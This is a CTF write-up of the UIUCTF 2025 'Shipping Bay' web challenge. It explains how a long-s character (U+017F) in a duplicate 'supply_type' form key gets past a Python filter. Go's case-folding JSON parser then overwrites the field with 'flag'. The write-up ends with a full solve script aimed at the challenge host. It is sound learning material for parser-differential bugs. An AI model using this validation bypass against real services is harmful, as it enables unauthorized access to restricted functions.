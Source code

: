 ```yaml
---
title: UIUCTF 2025 - Shipping Bay
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - go
  - Parser-differential
  - medium
authors:
  - Valenter
---
```

*UPS lost my package, so I'm switching to a more reliable carrier.*

Here we are in Chapter Three of our Cyberspace Odyssey for uiuctf; this time, we are tasked with retrieving a particular cosmic cargo that got lost during astral shipping.

![Homepage](/uiuctf2025/shipping-bay/screenshot-1.png)

A real flashback to the future with its Y2K/Vaporwave Classic Windows 98 UI, proof that even in the space age, fashion remains cyclical.

## Unpacking the interplanetary cargo

Let's try to create a new shipment.

![shipping](/uiuctf2025/shipping-bay/screenshot-2.png)

We can pick from a variety of options here, but it doesn't really matter, the space courier will always lose our package

```http
https://shipping-bay.chal.uiuc.tf/?status=oops+we+lost+the+package
```

Prodding at the code, there doesn't seem to be much we can work with, this debugging flag looks interesting at first:

```python
if __name__ == '__main__':
	app.run(debug=True)
```

but it's merely a red herring, we have no way of triggering the Werkzeug debug console.

Among the various supply types, there is one that piques our interest:

```go
//main.go
func sendShipment(shipment Shipment) string {
    if shipment.SupplyType == "flag" {
        if flag, exists := os.LookupEnv("FLAG"); exists {
            return flag
        }
        return "uiuctf{fake_flag}"
    }
    return "oops we lost the package"
}
```

But in order to retrieve our package, we first have to go through two different checks, this one in Go and the first one in `index.py`:

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}

    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400

    shipment_status = subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)]).decode().strip()

    return redirect(url_for('index', status=shipment_status))
```

Flask collects all submitted fields into a dict, lowercasing each key, so we can't simply enter two identical `supply_type` parameters or use capital letters to trick it into accepting our input.

Note, however, that this still allows us to enter two different `supply_type` fields in our input, as long as the second one is worded ever-so-*slightly* differently.

But how can we bypass it while ensuring that Go still reads a properly formatted `supply_type = flag` from the resulting Json?

## Resistance is futile

Thankfully, my teammate Leonardo came to the rescue and found [this article](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#case-insensitive-key-matching) that mentions this exact scenario.

We are going to use this character: `ſ` (Latin small long‑s, U+017F, unchanged by `.lower()`), which enables us to construct our final **payload**:

```python
    form = [
        ("origin",       uid),               # tutti i campi “normali”
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           # passa il filtro Python
        ("ſupply_type",   "flag"),            # secondo campo → debug
    ]
``` 

But **what** is going on under the hood?

On the **Python** side, only the ASCII‐key `"supply_type"` is checked, with our payload the ASCII key is still `"Tools"`, so this check passes.

```python
json.dumps(shipment_data)
subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)])
```

Json marshalling turns the payload into:

```json
{
  "origin":"…",
  …,
  "supply_type":"Tools",
  "ſupply_type":"flag"
}
```
*note that both keys appear distinctly*

On the **Go** (processing_service) side:

- Go’s JSON unmarshaller scans keys in order and, upon each match, sets the struct field
```go
type Shipment struct {
    …  
    SupplyType string `json:"supply_type"`
    …  
}
```
- It matches keys using **Unicode case‑folding** (`strings.EqualFold`), which maps both ASCII “s” and the long‑s “ſ” to the same fold class “s”.
- Therefore:

	1. On seeing `"supply_type":"Tools"`, it sets `SupplyType = "Tools"`.
    
	2. On seeing `"ſupply_type":"flag"`, it also matches the same field (since “ſ” folds to “s”) and overwrites it with `"flag"`
This gives rise to a sort of pseudo-homographic **parser differential** attack.

#### Final script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import re, uuid, requests
from urllib.parse import unquote_plus

BASE   = "https://shipping-bay.chal.uiuc.tf/"
CREATE = f"{BASE}/create_shipment"

def pretty(loc):
    if not loc:
        return None
    decoded = unquote_plus(loc)
    print("\n───── Location (decoded) ─────")
    for line in decoded.splitlines():
        print("│", line)
    print("───────────────────────────────")
    m = re.search(r"uiuctf\{[^}]+\}", decoded)
    return m.group(0) if m else None

def main():
    uid = f"Earth‑{uuid.uuid4()}"
    form = [
        ("origin",       uid),               
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           #passes Python filter
        ("ſupply_type",   "flag"),           #second field - passes Go's parser
    ]

    r = requests.post(CREATE, data=form, allow_redirects=False, timeout=5)
    print(f"[+] HTTP {r.status_code}")
    for k, v in r.headers.items():
        print(f"    {k}: {v}")

    flag = pretty(r.headers.get("Location", ""))
    print("\n[+] FLAG:", flag or "not found")

if __name__ == "__main__":
    main()
```
### ALL YOUR FLAGS ARE BELONG TO US

**`uiuctf{maybe_we_should_check_schemas_8e229f}`**